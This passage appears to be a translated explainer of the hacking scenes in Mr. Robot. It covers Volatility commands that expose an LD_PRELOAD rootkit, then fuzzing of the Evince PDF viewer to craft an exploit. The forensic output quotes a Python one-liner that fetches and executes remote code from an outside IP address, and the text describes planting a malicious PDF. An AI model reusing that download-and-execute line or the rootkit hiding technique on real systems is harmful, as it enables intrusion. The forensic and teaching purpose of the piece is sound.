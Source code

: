 ```bash
vol.py -f out.mem --profile=kali linux_proc_maps | grep libhd.so
```

该`linux_proc_maps`插件揭示了有关正在运行的进程的内存空间的详细信息，包括对它们使用的共享库的引用。此命令的输出通过管道传输到`grep libhd.so`. 简而言之，Elliot 正在寻找使用`libhd.so`. 该命令为进程 ID `39238`（一个 Python 实例）生成两个命中。
让我们暂停一下——为什么 Elliot `/etc/ld.so.preload`首先对文件感兴趣？他正在寻找调试功能 `LD_PRELOAD` 的证据，许多 Linux rootkit 滥用该功能来隐藏其踪迹。`LD_PRELOAD` 允许您指定在任何其他库之前加载的“.so”文件。如果该库实现了任何函数——例如，那些用于列出进程或网络连接的函数——它将覆盖原本从标准系统库中调用的函数。
好的，`libhd.so`是`rootkit`。但它旨在隐藏什么？最后两个波动率命令揭示了更多信息：

```bash
vol.py -f out.mem --profile=kali --pid=39238 linux_psaux
```

列出有关 PID `39238` 的基本详细信息 - 由上一个命令标识的 Python 进程。它的论点肯定看起来很可疑：
![Volatility 进程列表插件“linux_psaux”的输出，揭示了一个基于 Python 的后门](https://i-blog.csdnimg.cn/blog_migrate/62bcbb3fe207368247feb3c2b4ff6aa5.png)
| Volatility 进程列表插件“linux_psaux”的输出，揭示了一个基于 Python 的后门 |
|--|--|

```bash
python -c import urllib;exec urllib.urlopen("http://192.251.68.228/index").read()
```
这是一个第二阶段的后门，通过被 rootkit 隐藏的 Python 进程运行。通过命令行传递的单行指令下载并执行托管在指定 URL 上的任何 Python 代码。在我的虚拟机中构建这个场景时，我使用了一个基于 Python 的后门，该后门由Pupy生成。
最后一个波动率命令：

```bash
vol.py -f out.mem --profile=kali --pid=39238 -D dump/ linux_procdump
```
这会将后门进程的内存转储到一个目录，从而允许 Elliot 对其行为和功能进行进一步分析。

##  制作漏洞利用
下一次我们切换到 Elliot 的屏幕时，我们及时跳到了前面，可以推断他已经完成了对黑暗军队在他系统上的后门的审查。除其他功能外，该恶意软件还监控他的活动并将任何新创建的文件传输到其 C2 服务器之一。

当复杂的攻击组从受害者那里窃取大量数据时，他们通常有一个后端来自动化收集和索引过程。但艾略特是一个高度优先的目标。可以合理地推断，将指派一名人类分析师来审查从他的系统中被盗的任何有趣文件。这让 Elliot 有机会植入恶意 PDF 并等待 Dark Army 操作员打开它。

Elliot 可能对之前与黑暗军队的交易有所了解，但他不能确定他的受害者可能使用哪个 PDF 查看器。为了最大限度地提高成功几率，他可能不得不将多个漏洞利用捆绑在一起——包括一些未修补的零日漏洞。所有这一切最多可能需要几天或几周的时间，即使他有大量的错误和先前的研究来启动他的努力。为了在这个场景的限制下工作，我们不得不使用一些创造性的许可，并将工作量减少到几个小时。

无论时机如何，我都想确保我们捕获了漏洞发现过程的准确元素。首先是找到一个可以用来执行恶意代码的错误。

![漏洞研究的行业工具：afl-fuzz 和 gdb](https://i-blog.csdnimg.cn/blog_migrate/131c5d95588b6f794320b15b385ddbbc.png)
| 漏洞研究的行业工具：afl-fuzz 和 gdb |
|--|--|

这张照片包括两个窗口：背景是[American Fuzzy Lop](https://lcamtuf.coredump.cx/afl/) (afl-fuzz)，前景是[GNU 调试器](https://www.sourceware.org/gdb/)(gdb)。`Afl-fuzz` 是一个“fuzzer”——一种自动生成大量无效数据、通过应用程序输入运行并监控崩溃和其他错误的工具。`afl-fuzz` 除了因其强大的功能而受到 bug 猎人的欢迎外，它在运动中看起来真的很酷（尤其是对于控制台应用程序），所以我认为它非常适合这个场景。

请注意窗口顶部的文本：`american fuzzy lop 1.83b` (evince)。“evince”是被模糊测试的应用程序的标题——它是许多 Linux 发行版的默认 PDF 查看器。这告诉我们 Elliot 计划将他的漏洞利用嵌入到文档文件中。
![afl-fuzz 屏幕的原始模型](https://i-blog.csdnimg.cn/blog_migrate/d1fd5b7493f6edd730c2e188c96902a3.png)
| afl-fuzz 屏幕的原始模型 |
|--|--|
